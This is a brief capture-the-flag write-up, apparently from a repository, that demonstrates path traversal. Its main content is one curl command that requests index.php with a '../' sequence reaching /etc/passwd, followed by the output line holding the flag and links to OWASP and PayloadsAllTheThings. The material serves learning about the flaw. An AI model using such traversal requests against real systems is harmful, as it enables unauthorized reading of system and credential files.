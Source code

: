 # Path traversal

To exploit this vulnerability try to access `passwd` file going upper to the root directory.

```bash
curl -s "http://$IPADDR/index.php?page=../../../../../../../etc/passwd" | grep flag 

...
 The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
...
```

## References
- [Path Traversal — OWASP](https://owasp.org/www-community/attacks/Path_Traversal)
- [Directory Traversal — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
- [File Inclusion — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)